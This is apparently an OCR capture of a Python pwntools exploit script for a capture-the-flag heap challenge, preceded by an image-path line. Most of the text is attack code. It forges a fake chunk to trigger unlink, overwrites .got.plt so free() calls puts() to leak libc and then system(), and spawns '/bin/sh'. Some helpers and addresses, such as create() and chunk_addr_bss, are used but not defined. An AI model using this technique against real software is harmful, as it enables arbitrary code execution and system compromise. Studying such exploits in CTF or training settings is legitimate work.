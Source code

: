 ```python

def delete(index):
	io.sendlineafter(b'$ ', b'2')
	io.sendlineafter(b'Chose one to dele\n', str(index).encode())

def edit(index, content):
	io.sendlineafter(b'$ ', b'3')
	io.sendlineafter(b'Chose one to edit\n', str(index).encode())
	io.sendafter(b'Input the content\n', content)

main_addr = 0x400C8C
pop_rdi_ret_addr = 0x400DA3
one_gadget_addr = 0x41EBC

io.recv()
io.sendline(b'CoLin')

create(0x420, 0, b'flag')
create(0x420, 1, b'flag')
delete(1)
delete(0)

payload = p64(0)		# fake chunk prev_size
payload += p64(0x420)	# fake chunk size
payload += p64(chunk_addr_bss - 0x18)	# fake chunk fd
payload += p64(chunk_addr_bss - 0x10)	# fake chunk_bk
payload += b'\x00' * 0x400	# useless filling data

payload += p64(0x420)	# front chunk prev_size (modified)
payload += p64(0x420)	# front size (modified)
payload += b'\x00' * 0x410	# useless filling data for front chunk

payload += p64(0x420)	# fake front-front chunk prev_size 
payload += p64(0x21)	# fake front-front chunk size with prev_inuse = true
create(0x860, 0, payload)

delete(1)				# trigger unlink_chunk(av, p)

# now the address of chunk_0 (0x6020e0) has been changed into 0x6020c8, we can edit the next chunk into .got.plt

payload = b'\x00' * 0x18	# useless data for filling
payload += p64(0x6020c8)	# chunk_0 address
payload += p64(1)			# chunk_0 inuse
payload += p64(0x602018)	# change the chunk_1 to .got.plt of free()
payload += p64(1)			# change chunk_1 into inuse
payload += p64(0x602028)	# the .got.plt of write, ready to be used to get libc loading address
payload += p64(1)			# set the chunk_2 into inuse for free()

edit(0, payload)

edit(1, p64(elf.plt['puts']))		# change the address, now free() equals puts()

delete(2)

mem_write_addr = u64(io.recv(6) + b'\x00\x00')	# get the write() address in memory
libc_base = mem_write_addr - libc_write_addr	# libc loading base
mem_sys_addr = libc_base + libc_sys_addr		# system() address in memory

edit(1, p64(mem_sys_addr))			# now free() equals system()

create(0x20, 3, b'/bin/sh')
delete(3)
```